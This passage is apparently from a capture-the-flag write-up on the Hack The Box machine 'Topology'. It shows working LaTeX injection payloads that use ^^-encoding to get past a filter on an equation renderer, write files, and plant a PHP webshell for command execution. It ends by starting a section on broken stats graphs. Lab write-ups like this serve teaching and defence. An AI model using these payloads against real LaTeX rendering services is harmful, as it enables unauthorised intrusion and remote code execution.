 To send those to Topology, I initially tried `;` as a separator, but no separator at all works as well:

```

http://latex.topology.htb/equation.php?eqn=\newwrite\outfile\openout\outfile=cmd.tex\^^77rite\outfile{0xdf%20was%20here}\closeout\outfile

```

When I send this, the resulting PNG is empty:

![image-20231102170149211](/img/image-20231102170149211.png)

Going over to `latex.topology.htb/tempfiles`, it’s there:

![image-20231102170220688](/img/image-20231102170220688.png)

I’ll change the written text to a PHP webshell, and the output filename to `cmd.php`:

```

http://latex.topology.htb/equation.php?eqn=\newwrite\outfile\openout\outfile=cmd.php\^^77rite\outfile{%3C?php%20system($_REQUEST[%27cmd%27]);%20?%3E}\closeout\outfile

```

On reloading, `cmd.php` is there:

![image-20231102170344705](/img/image-20231102170344705.png)

And using it as a webshell works for execution:

![image-20231102170405993](/img/image-20231102170405993.png)

There was a patch after the initial release of this box as shown in [this changelog](https://app.hackthebox.com/machines/Topology/changelog):

![image-20231102170451593](/img/image-20231102170451593.png)

I believe the original person to root solved by writing a webshell with `\write` (or a similar method like `\begin{filecontent*}{shell.php}`) and the patch was increasing the filter. But even that is bypassable using `^^`.

## Beyond Root - Broken Graphs

### Background

I noted [during enumeration](#statstopologyhtb) that the timestamps for the images on the `stats.topology.htb` website were updating every minute. It really bugged me that one of the two images was returning empty. I’m going to figure out what’s going on.

### Crons

#### Crons

